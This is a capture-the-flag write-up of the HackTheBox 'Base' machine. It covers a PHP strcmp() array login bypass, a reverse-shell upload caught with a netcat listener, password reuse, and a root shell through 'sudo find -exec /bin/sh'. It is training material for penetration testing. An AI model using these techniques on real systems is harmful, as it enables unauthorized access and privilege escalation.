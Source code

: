 ```yaml
---
title: "HackTheBox - Base"
author: Nasrallah
description: ""
date: 2022-07-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, php, web, sudo]
img_path: /assets/img/hackthebox/machines/base
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Base](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The box is running ssh on port 22 and a web server on port 80. On the website we find there is a login page that uses a vulnerable function to check valid credentials, we exploit that function to login and upload a reverse shell. Once we're in the box, we find a user's password inside a website file. The user is able to run the `find` as root, so we exploit that to get a root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.18.141 (10.129.18.141)
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to Base
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports, 22(SSH) and 80(HTTP).

### Web

Let's start enumerating the web server.

![](1.png)

We have a file hosting service named `Base`. We can see that there is a **login** button, byt clicking it, we are presented with a login page.

![](2.png)

From the URL of the login page `http://10.129.243.35/login/login.php`, we notice that there is a login directory with the `login.php` file stored in it. Let's go to the login directory by removing `login.php` from the URL.

![](3.png)

We find 3 files, the first two (config.php and login.php) can't be read or downloaded, but we can download the `login.php.swp` file. According to this [website](https://fileinfo.com/extension/swp), An SWP file is a swap file created by the Vi text editor or one of its variants, such as Vim (Vi iMproved) and gVim. It stores the recovery version of a file being edited in the program.

We can open the login.php.swp file using the command `vim -r config.php.swp`.

The following part is what concerns us.

```php
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
?>
```

The above php code is the one handling the login.

This file checks the username/password combination that the user submits against the variables that are stored in the config.php file to see if they match.

The function used to check the username and password combination is the `strcmp()` function.

I googled `strcmp authentication bypass` and found this [writeup](https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/) from another CTF explaining how to exploit this `strcmp` function.

## **Foothold**

The thing we need to do is change the username and password variables in the POST request to `username[]` and `password[]`.

### BurpSuite

Let's fire up burp suite and intercept a login request.

![](4.png)

Now let's change the username and password variables to the following.

![](5.png)

This converts the variables to arrays and after forwarding the request, strcmp() returns true and the login is successful.

When we forward the request, we get a file upload form.

Let's upload a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Once the file is uploaded, we need to find where it goes, so let's run a directory scan using gobuster.`gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.129.10.10/`.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.18.141/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.18.141/_uploaded/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.18.141/assets/]   
/forms                (Status: 301) [Size: 314] [--> http://10.129.18.141/forms/]    
/login                (Status: 301) [Size: 314] [--> http://10.129.18.141/login/]    
/server-status        (Status: 403) [Size: 278]                                      
===============================================================
```

We found `/_uploaded` directory, let's go see if our file is there.

![](7.png)

It's there, let's setup a netcat listener using this command `nc -lvnp 1234` and request to reverse shell php file.

![](8.png)

We're in.

## **Privilege Escalation**

The first thing we need to do is see what's on the `config.php` we saw earlier.

![](9.png)

We found a password! But what's the user. Listing the content of **/home** directory we find **john**'s directory.

Let's use that password and login to john's account with ssh.

![](10.png)

Great! Let's check our current privileges with `sudo -l`.

![](11.png)

We can run `find` as root. A quick search on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo), we find a way to get root using `find`.

![](12.png)

Let's run that command: `sudo find . -exec /bin/sh \; -quit`.

![](13.png)

Nice!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
